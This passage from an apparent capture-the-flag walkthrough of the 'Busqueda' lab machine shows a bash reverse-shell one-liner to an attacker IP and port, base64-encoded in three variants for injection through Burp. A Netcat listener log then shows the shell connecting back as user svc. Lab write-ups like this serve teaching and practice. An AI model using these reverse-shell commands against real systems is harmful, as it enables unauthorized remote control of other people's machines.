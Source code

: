 Before passing our payload to Burp, we first need to clean any special characters arising after encoding it:

```bash
$ echo "bash -i >& /dev/tcp/10.10.14.12/9999 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi85OTk5IDA+JjEK

$ echo "bash -i  >& /dev/tcp/10.10.14.12/9999  0>&1" | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTIvOTk5OSAgMD4mMQo=

$ echo "bash -i  >& /dev/tcp/10.10.14.12/9999  0>&1 " | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTIvOTk5OSAgMD4mMSAK
```

Now that we have a clean string, we are ready to pass it to Burp:

![](python_rce.png)

And catch our reverse shell:

```bash
---------- [ SETUP LISTENER ] ----------

[ x ] yes
[   ] no
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.11.208:47376.
bash: cannot set terminal process group (1645): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$
```